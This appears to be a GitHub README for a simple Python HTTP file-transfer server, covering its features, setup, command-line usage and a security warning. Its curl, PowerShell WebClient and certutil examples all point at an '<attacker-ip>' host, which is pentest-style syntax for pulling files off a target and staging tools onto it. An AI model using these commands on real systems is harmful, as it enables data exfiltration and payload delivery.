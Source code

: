 # 🔁 Advanced File Transfer Server

A lightweight, cross-platform, zero-dependency HTTP server written in Python that enables file upload and download from any system via a web browser or command line. Perfect for sharing files across local networks quickly and safely (for trusted environments).

---

## ✅ Features

- 📂 Browse directories via a web browser  
- 📥 Download files via direct links  
- ⬆️ Upload files via web interface  
- 🧾 Upload files via `curl` using the `PUT` method  
- 📁 Uploaded files respect the path based on browser or CLI context  
- ⚙️ Works on **Linux**, **macOS**, and **Windows**  
- 🚫 100% standard Python no third-party dependencies  

---

## 💻 Requirements

- Python 3.x (tested on 3.6+)  
- Open network port (default: `8080`)  
- No installation or configuration required  

---

## 🚀 Getting Started

### Clone or Download
```bash
git clone https://github.com/Chittu13/File_Transfer.git
cd File_Transfer
python3 file_server.py
```


## 🌐 Web Interface

- Open `http://<your-ip>:8080/` in your browser  
- Navigate folders by clicking on links  
- Use the upload form to send files to the current folder  
- Uploaded files are saved in the **current folder you are viewing**  

---

## 📤 Upload & Download via Command Line

### Linux

#### Upload
```bash
curl -T file http://<attacker-ip>:8080/
```

#### Download
```bash
wget http://<attacker-ip>:8080/file.txt
```

### Windows

#### Upload 
```powershell
# Using curl
curl -T C:\Users\Public\file.txt http://<attacker-ip>:8080/

# Using PowerShell WebClient
$WebClient = New-Object System.Net.WebClient
$WebClient.UploadFile("http://<attacker-ip>:8080/file.txt", "PUT", "C:\Users\Public\file.txt")
```

#### Download 
```powershell
# Using Invoke-WebRequest
Invoke-WebRequest -Uri "http://<attacker-ip>:8080/file.txt" -OutFile "C:\Users\Public\file.txt"

# Using certutil
certutil -urlcache -split -f "http://<attacker-ip>:8080/file.txt" "C:\Users\Public\file.txt"

# Using curl
curl -o C:\Users\Public\file.txt http://<attacker-ip>:8080/file.txt
```

## 🛡 Security Warning

⚠️ This tool is **not secure for public or internet-facing use**:  

- No authentication or encryption  
- No user restrictions  
- Anyone on the network can access, upload, or download files  

✅ **Use only:**  

- On local networks  
- With trusted users  
- In controlled environments
